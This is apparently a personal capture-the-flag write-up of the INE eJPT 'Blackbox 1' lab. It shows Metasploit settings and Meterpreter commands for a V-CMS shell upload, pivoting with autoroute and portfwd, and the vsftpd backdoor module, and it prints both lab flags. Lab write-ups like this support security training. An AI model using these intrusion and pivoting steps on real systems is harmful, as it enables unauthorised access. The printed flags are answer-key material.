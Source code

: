 ```yaml
---
title: "[eJPT] INE Blackbox 1"
author: Tri Nguyen
date: 2022-01-11 14:30:00 -0700
categories: [CTF, Write Up]
tags: [ctf, write-up, ine, ejpt]
---
```


# INE Blackbox 1

## Enumeration 1

- Target: demo.ine.local (call this demo1)

- Our machine's `eth1`: 192.141.206.2

- `ping demo.ine.local` ---> 192.141.206.3

- Our target is running V-CMS v1.0

## Exploitation 1

- Search for V-CMS exploit in Metasploit, we can see a PHP shell upload vulnerability.

- We need to change these following options:

```
RHOSTS: 192.141.206.3 # our target
TARGETURI: /
LHOST: 192.141.206.2 # our machine
```

- `getuid` in Meterpreter ---> root (0)

- If we go to `/root` , we can see the flag being `4f96a3e848d233d5af337c440e50fe3d`

## Enumeration 2

- If we `cat /etc/hosts` or `ifconfig` we can see demo1 has another IP of 192.79.65.2 . So our second target must be on the same network.

`inet 192.79.65.2  netmask 255.255.255.0  broadcast 192.79.65.255`

- We need to route this IP. https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/manage/autoroute

- We run `meterpreter > run autoroute -s 192.79.65.0`

- **SOMEHOW THIS DOESN'T WORK** Then background the current session, run `nmap -v -sn 192.79.65.0/24` ----> We will see 192.79.65.1 is up

- **THIS WORK** Using `auxiliary/scanner/portscan/tcp` 

```
PORTS: 80,8080, 445, 21, 22
RHOSTS: 192.79.65.1-10
```

- Port 21 on 192.79.65.3 is open, we need to port forward it to our machine.

- We use this https://www.offensive-security.com/metasploit-unleashed/portfwd/

- In Meterpreter `portfwd add -l 1234 -p 21 -r 192.79.65.3`

- To detech the version I used `nmap -p 1234 -sV localhost`

## Exploitation 2

- You can search for `vsftpd 2.0.8 exploit metasploit` on Google or in Metasploit, just `search vsftpd`

- We use `exploit/unix/ftp/vsftpd_234_backdoor`

- If you set the options to localhost:1234 it won't work.

- The correct options:

```
RHOSTS: 192.79.65.3
RHOST: 21
```

- `cat /root/flag.txt` ---> Flag `58c7c29a8ab5e7c4c06256b954947f9a`
